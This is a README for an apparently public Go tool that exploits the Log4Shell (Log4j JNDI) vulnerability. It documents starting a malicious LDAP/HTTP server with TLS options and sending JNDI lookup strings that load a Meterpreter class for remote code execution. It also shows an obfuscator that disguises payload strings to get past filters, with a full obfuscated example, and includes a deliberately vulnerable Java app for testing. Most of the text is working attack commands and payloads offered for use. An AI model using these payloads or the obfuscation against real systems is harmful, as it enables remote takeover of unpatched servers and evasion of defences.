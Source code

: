 # Log4Shell
 * Check, exploit, obfuscate, TLS, ACME in one Go program. 
 * You don't need to install anything except develop it.

## Usage
 ### Start LDAP and HTTP server
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### Start LDAPS and HTTPS server
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)
   
 ### Start LDAPS and HTTPS server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)
   
 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/calc.class}"
   
   raw: ${jndi:ldap://1.1.1.1:3890/calc.class}
   ${${lhnK:JFL3Nl:-j}n${Yx6-A3NuXSY1nI-g38C4MN-WAFx:-d}i:${2O:bO2I5l:-l}${yeZ6-mnrv6pb:gB49n:XrYMP:-d}
   ${jVBMSs-iOFWslRG-XuNO:dsCO:-a}${jYYNn:Twh80-IYXK:-p:/}${eOFbh:DW35u2:-/1.}${EkFw3Z-YsM9CIMV8:g2DHZ:
   -1}${Vez8Sb:Mwn:-}${yWH0V-FY9jJQZ2:TOSkrotU:oq1i:-}${kZ:BoJpOxRH-yFI2POt-88w2:-.1}${xbswX-VstKzXnyNz
   i8:jeEQKB5WRH-Ob:-}${Uyhe0-aYuAh-MdR63to:GONgfM:-.}${eA:eCPgpV-NWF7s:-}${mrLla-owJSvkD:n0cmdQ-V2cLx:
   -1:3}${CwG9:Hc:-}${xT:aiD7ho:xz:-8}90${NTSL-dSfw9NC:7OiGEp:gMQwko:-}/${TCpW:UhZI0IO8:9Jz5MH:WyM:-c}$
   {Mlv:AS8TOFMM-b9I2:FqvBY:-al}${mfGW:EY1Yd48:E0KhRGfp:5CBsuC:-c}${xDw1-ZyHav9K:jPHo18i:zibmI:-.}c${ye
   -kZjRa5g61cm-Hn2yR7:-la}${Htg:cySA:-s}s}
   ```
   
## Check
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/nop.class}```
 * send ```${jndi:ldaps://example.com:3890/nop.class}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/meterpreter.class}```
 * send ```${jndi:ldaps://example.com:3890/meterpreter.class}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/calc.class}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -auto-cert
        use ACME client to sign certificate
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -obf string
        obfuscate malicious(payload) string
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)

